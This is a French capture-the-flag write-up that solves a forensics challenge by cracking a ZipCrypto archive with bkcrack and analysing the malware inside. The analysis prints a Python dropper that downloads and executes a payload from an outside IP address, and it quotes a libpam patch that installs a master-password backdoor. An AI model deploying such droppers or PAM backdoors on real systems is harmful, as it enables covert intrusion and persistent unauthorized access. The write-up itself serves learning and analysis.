 # Oh my PAM

Nous avions un outil, mais le zip a un mot de passe. Même si nous pourrions bruteforcer le mot de passe, il existe un outil plus intéressant, [bkcrack](https://github.com/kimci86/bkcrack), créé par kimci86. Cet outil permet de faire des attaques par clair connu sur les fichiers zip contenant des archives chiffrées au format ZipCrypto.

En regardant le nom des fichiers contenus dans le zip, nous pouvons voir qu'il y a un fichier DS.jpeg. N'avons-nous donc pas déjà vu une image de DS dans l'épreuve [Baby Web](babyweb.html) ? Allons chercher l'image !

Nous avons le fichier [DS_200x200.jpeg](http://challenges.hackday.fr:50399/static/DS_200x200.jpeg), mais la version originale est stockée juste à côté [DS.jpeg](http://challenges.hackday.fr:50399/static/DS.jpeg). Nous pouvons à présent attaquer le zip !

La commande `bkcrack -C SuperUltraTech30001.zip -c DS.jpeg -p DS.jpeg` ne fonctionne pas. En effet, en zippant l'image, elle a été compressée. DS.jpeg n'est donc pas le clair de ce qui a été chiffré. Pas de panique, il suffit de zipper sans mot de passe et on peut reprendre notre attaque 
```
$ zip Plain.zip DS.jpeg #Pour avoir le clair dans le zip
$ bkcrack -C SuperUltraTech30001.zip -c DS.jpeg -P plain.zip -p DS.jpeg
bkcrack 1.5.0 - 2022-07-07
[12:10:56] Z reduction using 52590 bytes of known plaintext
83.5 % (43930 / 52590) 
[12:10:59] Attack on 114 Z values at index 9121
Keys: 3ea43676 82bd21a5 3f21d103
100.0 % (114 / 114)
[12:10:59] Keys
3ea43676 82bd21a5 3f21d103
```

Muni des clés, nous pouvons dézipper l'archive:
```
bkcrack -C SuperUltraTech30001.zip -k 3ea43676 82bd21a5 3f21d103 -U unlocked.zip newpassword
unzip unlocked.zip # le nouveau mdp est newpassword
```
Nous trouvons un fichier python. Ce fichier vérifie de manière assez simpliste s'il tourne dans une vm avant de se supprimer. S'il ne détecte pas qu'il est dans une vm, il télécharge un autre fichier qu'il exéctue avant de se supprimer:

```
def load_p2():
        key = (os.name + getuser() + sys.argv[1]).encode() # Zip file password Super5MDP7768
        address = [47,7,7,29,8,72,64,64,65,98,91,66,84,66,27,124,116,102,25,6,3,12,95,28,7,8,12,27,12,64,7,38,5,21,23,31,84,33,51,49,69,82,24,93,8,10]
        addr = xor(key, address)
        if addr[1:5] == "http":
                r = requests.get(addr[1:]) # Add password or some shit to download it bruh
                with open("/tmp/.a", "wb") as f:
                        f.write(r.content)
                subprocess.Popen(["/tmp/.a", detach=True])
```
Nous utilisons le résultat de la concaténation du résultat de deux fonctions, et du mot de passe du zip, pour xorer la vraie addresse de la charge utile. Assez rapidement, on comprends que os. name = "posix" et que getuser() = "root". Il nous manque le mot de passe du zip, qu'on peut récupérer plus facilement qu'avec une attaque par force brute en retournant sur l'outil bkcrack:
```
bkcrack -k 3ea43676 82bd21a5 3f21d103 -r 13 ?a
bkcrack 1.5.0 - 2022-07-07
[12:25:31] Recovering password
length 0-6...
length 7...
length 8...
length 9...
length 10...
length 11...     
length 12...
length 13...         
47.0 % (1808 / 3844) 
[12:30:17] Password
as bytes: 53 75 70 65 72 35 4d 44 50 37 37 36 38 
as text: Super5MDP7768
```
Nous pouvons alors retrouver l'adresse: http://51.210.106.154/static/r, qui n'était pas sur l'infra du hackday pour éviter qu'on ne retrouve l'adresse trop facilement.

Ce lien contient un fichier script bash camouflé en exécutable. A première vue, en regardant avec un éditeur de texte avec gui, rien de transcendant. Cependant, une seconde examination avec nano nous donne instantanément un gros blob de base64. On dirait que le hackeur était sur le point de se faire hacker.

Enn déchiffrant le base64, on se rend compte que c'est un simple script qui va remplacer le script bash par une version non backdoorée avant d'essayer de remplacer le fichier pam_unix.so, qui est une librairie servant à authentifier les utilisateurs sous unix. Mais comment marche cette backdoor ?

Après quelques recherches, on trouve l'outil [linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) fait par zephrax. Le programme va simplement recompiler la libpam après lui avoir appliqué un patch:

```
if (strcmp(p, "_PASSWORD_") != 0) {
!           retval = _unix_verify_password(pamh, name, p, ctrl);
!         } else {
!           retval = PAM_SUCCESS;
!         
```

En somme, nous avons un mot de passe maitre qui est valide, peu importe le compte ou le niveau de privilèges. C'est valable pour le ssh, pour la commande su, pour la commande sudo... En bref, c'est une backdoor formidable et discrète.

Nous allons donc reverser cette libpam en la comparant avec une libpam classique sur [binary ninja](https://cloud.binary.ninja). L'effet du patch est visible dans la fonction *pam_sm_authenticate*, où nous avons un appel à la fonction 
```
**strcmp(mdp_buf_1, ".gnu.version_r")**
```
Ce choix de ce mot de passe à été fait pour éviter d'avoir le mot de passe qui apparaît trop lorsqu'on utilise la commande strings dessus.

Nous avons donc notre flag: 
```
HACKDAY{.gnu.version_r}
```
P.S. Pour tout ceux qui ont été assez rapide, la première journée, mon vps était backdorée avec le même mot de passe, ce qui m'a valu un bon coup de flippe XD

